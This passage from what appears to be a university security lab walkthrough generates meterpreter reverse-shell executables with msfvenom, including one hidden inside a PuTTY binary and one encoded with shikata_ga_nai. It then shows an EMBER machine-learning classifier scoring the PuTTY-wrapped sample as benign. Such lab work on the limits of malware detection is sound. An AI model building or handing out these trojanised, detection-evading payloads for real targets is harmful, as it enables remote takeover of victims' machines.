 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe -x /volume1/putty.exe > /volume1/meterpreter2.exe
```

Moreover, `Msfvenom` has other encoders that try and obfuscate the file to avoid detection. One of these is called `shikata ga nai`. You can create a meterpreter binary using the flag:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe -e x86/shikata_ga_nai > /volume1/meterpreter3.exe
```

Now that we have the three different samples, we can go back to our classifier in the `ai-malware` container and see what happens. Launch the `ai-malware` container with the `volume1` attached (it will be a new container instance of the `ai-malware` image):

```bash
sudo docker run -v volume1:/volume1 -it --rm uwacyber/cits1003-labs:ai-malware
```

Now, move the meterpreter files into the `/opt/ember` directory. With the first version `meterpreter1.exe` we get:

```bash
root@cb69acf0fc22:/opt/ember# python3 scripts/classify_binaries.py -m ember_model_2018.txt meterpreter1.exe
WARNING: EMBER feature version 2 were computed using lief version 0.9.0-
WARNING:   lief version 0.11.5-37bc2c9 found instead. There may be slight inconsistencies
WARNING:   in the feature calculations.
Signature PDB_20 is not implemented yet!
0.9999979600610946
```

Definitely malware!

However, when we run the second version, we get:

```bash
root@cb69acf0fc22:/opt/ember# python3 scripts/classify_binaries.py -m ember_model_2018.txt meterpreter2.exe
WARNING: EMBER feature version 2 were computed using lief version 0.9.0-
WARNING:   lief version 0.11.5-37bc2c9 found instead. There may be slight inconsistencies
WARNING:   in the feature calculations.
0.00907516308707395
```

So, according to the classifier, this is likely to be a normal, and safe, binary/executable!

And for the last one:

```bash
root@cb69acf0fc22:/opt/ember# python3 scripts/classify_binaries.py -m ember_model_2018.txt meterpreter3.exe
WARNING: EMBER feature version 2 were computed using lief version 0.9.0-
WARNING:   lief version 0.11.5-37bc2c9 found instead. There may be slight inconsistencies
WARNING:   in the feature calculations.
Signature PDB_20 is not implemented yet!
0.9999973876606032
```
